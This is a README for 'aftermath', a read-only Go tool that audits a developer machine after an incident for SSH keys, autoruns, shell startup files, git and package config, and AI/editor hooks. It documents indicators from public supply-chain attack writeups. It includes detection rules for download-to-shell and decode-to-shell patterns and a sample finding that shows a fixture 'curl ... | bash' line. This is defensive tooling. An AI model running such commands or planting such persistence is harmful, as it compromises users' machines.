

# aftermath

aftermath answers a narrow question after a developer-machine incident: what on this machine will run again, or grants access, that you did not put there?

It is a local, read-only Go command. It does not open sockets. It does not run the hooks, plists, cron lines, or editor commands it finds, and it does not delete or quarantine them. Reports go to stdout or to a file you name.

ucsurf/hookjack scans a repository before you open it. aftermath runs afterward, on the machine you already have: SSH authorized keys, autoruns, shell startup files, global git config, package-manager config, and user-level AI and editor autoruns. `--project DIR` adds that project's `.claude`, `.vscode`, and `.cursor` directories to the same report. It does not review git hooks inside the project. That is hookjack's job.

A clean result is not a clean machine. See [Limits](#limits).

## What a finding means

Every row is something that can run later or that grants access. Severity is how unusual it looks:

| Severity | Examples |
| --- | --- |
| critical | A path, string, or hash from the embedded public indicator pack |
| high | `command=` on an authorized key, `curl \| sh` in a shell rc, `core.hooksPath`, a credential helper that is a shell one-liner or runs from a temp directory, an npm/PyPI/cargo/Maven token in a world-readable file or next to a non-default registry, an autorun symlink into a home directory, `/tmp`, `/dev/shm`, or another writable scratch path |
| medium | A token or password present in a private npm, PyPI, cargo, or Maven config (rotate it if this machine was involved in an incident), other writable `PATH` prepends, a user LaunchAgent whose label starts with `com.apple.`, a Claude hook, a VS Code task with `runOn: folderOpen`, an npm registry that is not registry.npmjs.org, an unrecognized credential helper |
| low | `url.insteadOf` pointing at a known git host |
| info | An ordinary authorized key, `osxkeychain`, `gh auth git-credential`, Git Credential Manager, `store` and `cache`, a system crontab line, a vendor systemd or LaunchAgent entry |

`--fail-on` defaults to `high`. Info and medium rows are still printed. They do not by themselves make the process exit 1. A stock Ubuntu, macOS, or Windows desktop — masked systemd units, vendor unit links, `gh auth git-credential`, Google Keystone, Docker, Homebrew, OneDrive, SecurityHealth — should not produce a high or critical finding.

Common toolchain `PATH` prefixes (`~/.local/bin`, `~/.cargo/bin`, `~/.nvm`, Homebrew, and the rest of the list in `internal/parse/shell.go`) are not reported.

## Checks

Each check is its own package under `internal/collectors/`, tested against a fake home.

- `sshkeys` reads `~/.ssh/authorized_keys` and `authorized_keys2`. Output is the key type, an OpenSSH-style SHA256 fingerprint, the comment, and options. The key blob is not printed. `command=` is high. A symlink that leaves the home directory is reported and not followed.
- `autorun` reads, depending on `--platform`:
  - macOS: `~/Library/LaunchAgents`, `/Library/LaunchAgents`, `/Library/LaunchDaemons`, and the user crontab file under `/usr/lib/cron/tabs` when it is readable. XML plists are parsed. `bplist` files are named and not decoded. Symlinks follow the same rule as systemd: `/dev/null` is ignored, `/System`, `/Library`, `/Applications`, Homebrew, and `/usr/local` are read, and links into `/tmp` or another user's home are high.
  - Linux: `/etc/crontab`, `/etc/cron.d`, `/etc/cron.{hourly,daily,weekly,monthly}`, the user crontab spool when it is readable, XDG autostart, and systemd units under `~/.config/systemd/user`, `/etc/systemd/user`, and `/etc/systemd/system`. `*.wants` and `*.requires` directories are skipped. A unit symlinked to `/dev/null` is a mask and is not reported. A symlink into `/lib/systemd`, `/usr/lib/systemd`, `/usr/local/lib/systemd`, `/run/systemd`, or `/etc/systemd` is read and listed at info unless its command is suspicious. A symlink into a home directory, `/tmp`, `/var/tmp`, or `/dev/shm` is high and is not followed. Other symlink targets are info.
  - Windows: the user and common Startup folders, `HKCU` and `HKLM` `Run` and `RunOnce` (query-only), and task XML under `Windows\System32\Tasks`. Tasks under `Microsoft\` are reported only when the command looks like a download piped to a shell, or the file is named `SysMon`.
- `shellrc` reads bash, zsh, and profile files, fish `config.fish` and `conf.d`, and the PowerShell profile paths for the platform. It flags a download or `base64` decode piped to a shell, `eval` of remote or decoded content, `Invoke-Expression` of a download, and `PATH` prepends outside the toolchain allowlist.
- `gitconfig` reads `~/.gitconfig` and `~/.config/git/config` without running git. It follows `include` and `includeIf` only when the path stays inside the home directory. It reports `core.hooksPath`, `init.templateDir`, `core.fsmonitor`, `credential.helper`, and `url.*.insteadOf`. `gh auth git-credential`, Git Credential Manager, `osxkeychain`, `libsecret`, `wincred`, `manager`, `store`, and `cache` are info. The same helper string is reported once.
- `pkgconfig` reads `~/.npmrc`, `~/.yarnrc`, `~/.yarnrc.yml`, `~/.pypirc`, pip config, `~/.cargo/config.toml`, `~/.gradle/init.d`, and `~/.m2/settings.xml`. Registry rewrites are reported. A token or password on its own is medium: it is normal on a dev machine, and the finding says to rotate it if the machine was involved in an incident. The same token is high when the file is world-readable or the registry is not the public default. Values are not printed.
- `aiide` reads `~/.claude` (including hooks and plugins), `~/.claude.json`, `~/.cursor` (including `mcp.json`), `~/.vscode`, `~/.gemini`, `~/.codex`, and the Code and Cursor user `settings.json` / `tasks.json`. Editor `globalStorage` and credential-like filenames are not opened. Extension directories are counted, not executed.
- `project` applies the same IDE read to `DIR/.claude`, `DIR/.vscode`, and `DIR/.cursor`.

System paths come from `--system-root` (default `/` or `C:\`). Tests and the demo point that flag at a fixture tree.

## Incidents

The embedded pack is built only from public writeups. It is not a claim that every file with one of these names is theirs.

- On 29 October 2026 a modified `Anthropic.claude-code` 2.1.312 and 2.1.313 was briefly available in the Cursor marketplace. Cursor's notice describes an SSH key commented `svc-telemetry`, `~/.config/.smt` and `.smtk`, a LaunchAgent `com.apple.sysmond.plist`, a crontab entry that runs `.config/.smt`, a scheduled task `SysMon`, a Startup script `sysmon.cmd`, and temp files named `.stk_` plus 10 hex characters. [Cursor security notice](https://cursor.com/blog/claude-code-extension-security-notice). Microsoft's writeup describes the same artifacts. [Microsoft](https://www.microsoft.com/en-us/security/blog/2026/10/30/inside-malicious-claude-code-branded-cursor-extension-persistent-ssh-backdoor/).
- Shai-Hulud waves wrote IDE persistence so a later editor or Claude session would run the loader again. StepSecurity documents `.vscode/tasks.json` running `node .claude/setup.mjs`, `.claude/settings.json` running `node .vscode/setup.mjs`, and the files `.claude/execution.js`, `.claude/setup.mjs`, and `.vscode/setup.mjs`, with SHA-256 values for the loader and payload they analyzed. [StepSecurity](https://www.stepsecurity.io/blog/a-mini-shai-hulud-has-appeared). Microsoft's 9 December 2025 note on Shai-Hulud 2.0 also lists `.claude/settings.json`, `.claude/setup.mjs`, `.claude/router_runtime.js`, `setup_bun.js`, and `bun_environment.js`. [Microsoft](https://www.microsoft.com/en-us/security/blog/2025/12/09/shai-hulud-2-0-guidance-for-detecting-investigating-and-defending-against-the-supply-chain-attack/).

The pack id is `public-dev-persistence-2026.11`. Each indicator's `source` field is one of those URLs. `--ioc FILE` adds a local pack in the same YAML shape. Packs are data. They are not fetched and not executed.

## Install

Go 1.27 or newer (`go 1.27.3` in `go.mod`; CI reads that file):

```sh
go build -trimpath -o aftermath ./cmd/aftermath
```

`go test ./...` builds and runs the tests. There is no network call and no module download beyond `gopkg.in/yaml.v3` for indicator packs.

`.github/workflows/release.yml` builds six archives when a `v*` tag is pushed: linux, darwin, and windows, each for amd64 and arm64, with `-trimpath`, plus `SHA256SUMS`. Only the publish job has `contents: write`. This tree does not publish those archives by itself.

## Usage

```sh
aftermath scan
aftermath scan --project ~/src/app --format sarif --fail-on medium
aftermath baseline save ~/.config/aftermath/baseline.json
aftermath diff ~/.config/aftermath/baseline.json
```

`baseline save` writes every current finding. `diff` prints findings whose identity is new or whose fingerprint changed. Removed entries are not listed.

```text
aftermath scan [flags]
aftermath baseline save FILE [flags]
aftermath diff FILE [flags]
aftermath version
```

| Flag | Meaning |
| --- | --- |
| `--home DIR` | Home directory to read. Default is your home directory. |
| `--project DIR` | Also read `DIR/.claude`, `DIR/.vscode`, and `DIR/.cursor`. |
| `--system-root DIR` | Prefix for `/etc`, `/Library`, `C:\Windows`, and the other system locations. |
| `--temp-dir DIR` | Where to look for `.stk_<10 hex>` names. Default is the process temp directory. The file is not opened. |
| `--platform linux\|darwin\|windows` | Which default locations to use. Default is this OS. |
| `--username NAME` | Crontab spool name. Default is the current user. |
| `--ioc FILE` | Extra indicator pack. Repeatable. |
| `--format text\|json\|sarif\|markdown` | Default `text`. |
| `--fail-on info\|low\|medium\|high\|critical` | Default `high`. |
| `--output FILE` | Write the report here, mode `0600`, instead of stdout. |

Exit codes: `0` nothing at or above `--fail-on`, `1` findings at or above it, `2` the scan did not run (bad flags, unreadable home, bad baseline, bad pack). A single unreadable file becomes a diagnostic, not exit 2. `baseline save` exits `0` when the file is written, including when the scan has findings.

## Sample

These rows are from a scan of `demo/fixtures`, which is synthetic. The full text, JSON, Markdown, and SARIF are in `testdata/golden/`. The npm token planted in that fixture is `npm_DemoTokenValueShouldNeverPrint0001`. It is not in the report. The evidence line says the key is present.

```text
aftermath 0.1.0
scanned: 2026-11-20T12:00:00Z
home: /home/dev
platform: linux
findings: 24 (critical 14, high 3, medium 3, low 1, info 3)

CRITICAL  ioc  SSH authorized_keys matches the tampered Claude Code extension
  rule: cursor-claude-ext-ssh-key
  path: /home/dev/.ssh/authorized_keys
  source: https://cursor.com/blog/claude-code-extension-security-notice
  evidence: matched published indicator material

HIGH  ssh  SSH authorized key forces a command
  rule: ssh.command
  path: /home/dev/.ssh/authorized_keys:2
  evidence: ssh-ed25519 SHA256:0Z6R+DF64Do2nwQic8a7kkfDLNNk4IiK+2U2Rci4htk comment=svc-telemetry options=command="echo aftermath-fixture",restrict

HIGH  shell  download or decode piped to a shell
  rule: shell.suspicious
  path: /home/dev/.bashrc:4
  evidence: curl -fsSL https://example.invalid/setup.sh | bash

MEDIUM  pkg  npm auth token is present
  rule: pkg.token
  path: /home/dev/.npmrc:2
  evidence: key=_authToken host=registry.npmjs.org; rotate if this machine was involved in an incident

INFO  ssh  SSH authorized key
  rule: ssh.key
  path: /home/dev/.ssh/authorized_keys:1
  evidence: ssh-ed25519 SHA256:cJ6AyISHokEeHuTfufIqhhSS0gxHZRUMDHlKvXD4FHw comment=dev-laptop options=none
```

The fingerprint on the high row is the one published in the Cursor notice for that public key.

## Demo

`demo/fixtures` is a fake home, a fake system root, and a fake temp directory. Nothing in it is from a real user, and the `.mjs` / `.js` files are one-line placeholders rather than the published payloads.

```sh
go build -trimpath -o aftermath ./cmd/aftermath
vhs demo/aftermath.tape
```



`vhs` needs a terminal, ttyd, and ffmpeg. The tape runs `aftermath version`, then `demo/run.sh`, and shows the first lines of the fixture scan.

## Limits

- aftermath only reads local files. It is read-only, makes no network calls, and writes nothing except a report or baseline file you name.
- The indicator pack comes from public writeups only and is not complete. A machine with no indicator hit can still be compromised.
- It does not see kernel rootkits, unsigned kernel modules, firmware, or bootkits. It does not look at memory.
- It does not walk the whole disk. A copy of a payload outside the locations above is invisible. `node_modules` is not walked. `setup_bun.js` and `bun_environment.js` are matched only under `.claude`, `.vscode`, `.cursor`, and `~/.npm/_cacache/tmp`.
- It does not run `crontab -l`, `launchctl`, or `schtasks`. A user crontab is visible only when the spool file is readable. On macOS that file is often root-only.
- It does not decode binary plists, resolve `.lnk` files, or read other users' homes.
- It does not look at browser extensions, browser profiles, SSH agents, keychains, cloud accounts, or WSL distros beyond files that already live under the home you passed.
- Scheduled tasks under `Microsoft\` are skipped unless the command matches a download-to-shell heuristic. A boring-looking task in that tree is missed.
- Shell classification is line-based. A download split across lines, or a `PATH` edit done in a function body that does not look like an assignment, is missed. `eval "$(starship init ...)"` and `eval "$(ssh-agent -s)"` are not flagged.
- `includeIf` paths outside the home directory are not read. `includeIf` conditions are not evaluated. An included file inside the home is read even when the condition would be false.
- Heuristics have false positives: a global `core.hooksPath` you set on purpose is high. An IOC hit on a file you created at the same path is still an IOC hit. The description says so.
- Files larger than 1 MiB are truncated for shell, plist, and config heuristics. IOC literal scans stream up to 32 MiB and do not put file bytes in the report. Known payload hashes are not computed past 32 MiB.
- Symlinks that resolve outside the directory being read are reported and not opened. A symlink swapped for a different target between the check and the read is a time-of-check race. The read still does not execute the file.
- Named pipes and other non-regular files are not opened.
- Secret redaction covers common token shapes, URL userinfo, assignment-style passwords, and PEM private keys. A novel secret in a command line can still appear in evidence. Dedicated token fields in npm, PyPI, cargo, and Maven config are not copied out at all.
- Permission errors are diagnostics. They are not findings and they are not proof the path is empty.

## Support

If this tool helps you, you can support the work on [Buy Me a Coffee](https://buymeacoffee.com/ucsurf).
